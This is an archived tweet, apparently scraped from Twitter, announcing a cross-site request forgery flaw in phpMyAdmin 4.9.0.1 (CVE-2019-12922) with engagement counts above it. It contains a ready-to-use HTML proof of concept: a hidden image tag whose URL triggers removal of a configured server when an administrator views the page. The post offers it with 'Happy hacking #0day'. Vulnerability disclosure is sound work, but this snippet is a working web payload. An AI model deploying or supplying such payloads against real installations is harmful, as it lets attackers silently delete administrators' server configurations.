 <td><img src="pictures/4fbccb2e8fbd576464e81dd15eb34993eaad8d9fbb0fe2b46b706a2fb5020201.jpg" alt="4fbccb2e8fbd576464e81dd15eb34993eaad8d9fbb0fe2b46b706a2fb5020201.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---

# xxByte
**https://twitter.com/xxByte/status/1172418715717009409 _at 2019-09-13, 07:56:18_**
<blockquote>
phpMyAdmin 4.9.0.1 CSRF vuln to delete any server(s) - CVE-2019-12922

Poc:
&lt;p&gt;Deleting Server 1&lt;/p&gt;
&lt;img src=“
http://server/phpmyadmin/setup/index.php?page=servers&amp;mode=remove&amp;id=1″
style=“display:none;” /&gt;

Happy hacking 
#0day
</blockquote>
